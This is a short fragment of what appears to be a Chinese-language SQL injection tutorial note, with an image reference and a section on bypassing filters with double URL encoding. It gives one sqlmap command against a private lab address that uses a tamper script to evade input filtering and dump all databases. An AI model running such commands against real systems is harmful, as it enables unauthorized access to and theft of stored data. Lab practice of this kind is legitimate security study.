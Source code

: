 ![image-20250904194843338](images/image-20250904194843338.png)



## 双重url编码绕过

```
python sqlmap.py -u "http://192.168.126.138/sqli/10.php?id=1" --dump-all --batch --tamper=chardoubleencode
```
